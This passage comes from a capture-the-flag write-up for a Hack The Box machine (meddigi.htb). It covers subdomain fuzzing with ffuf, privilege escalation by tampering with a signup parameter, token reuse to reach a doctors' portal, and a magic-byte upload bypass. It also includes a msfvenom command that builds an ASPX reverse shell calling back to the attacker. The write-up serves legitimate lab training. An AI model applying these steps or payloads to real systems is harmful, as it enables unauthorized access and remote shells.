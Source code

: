 ```markdown

 :: Method           : GET
 :: URL              : https://meddigi.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.meddigi.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404
________________________________________________

portal                  [Status: 200, Size: 2976, Words: 1219, Lines: 57, Duration: 3394ms]
:: Progress: [4989/4989] :: Job [1/1] :: 163 req/sec :: Duration: [0:00:24] :: Errors: 0 ::
```
Add this subdomain to hosts file and browse with firefox.

![appsanity1](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/e5e6ec35-40bf-435f-bfc7-48745684bec8)

Also, we notice we cannot access the http 80 service externally. Take note of this because this service can maybe be accessed internally later if we find a place to launch a ssrf attack.

### PHASE 2: User
Sign up to the site and create a new account and intercept the request. You can see there is a parameter called `AccType` set to "1". Manipulate it with burpsuite and set it to "2", forward the request until it completes successfully. Finally, log in using the recently created account and verify we have made ourselves a doctor account.

![appsanity2](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/7fc79012-2a44-40fc-a7c3-5dd276e0d5fc)

We also notice we have been granted an access token in the cookie editor.

![appsanity3](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/71cd2245-f553-463c-969f-1bea750b9c14)

We can reuse this token to get access to the meddigi portal reserved for doctors. Just browse the site `https://portal.meddigi.htb`, fill in the email id with the one you chose when signing up and save the access_token with the cookie editor.

![appsanity4](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/b1e5caa0-50e4-44b0-bf28-b1cbc320e350)

Click on `login` and you are inside the doctors panel.

![appsanity5](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/fd8eaf13-087b-44dd-b444-9bb89388f4a4)

Move to the "upload report" tab. If you try to upload a shell, there is an extension filter ongoing which only accepts pdf files. Experimenting with the filter, we find out the back end only checks the file magic bytes,  and it does not check file extensions. Prepare a msfvenom `aspx` shell.
```markdown
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.xxx.xxx lport=1919 -f aspx -a x64 --platform windows
```
To upload the shell, navigate to the "upload/report" site.
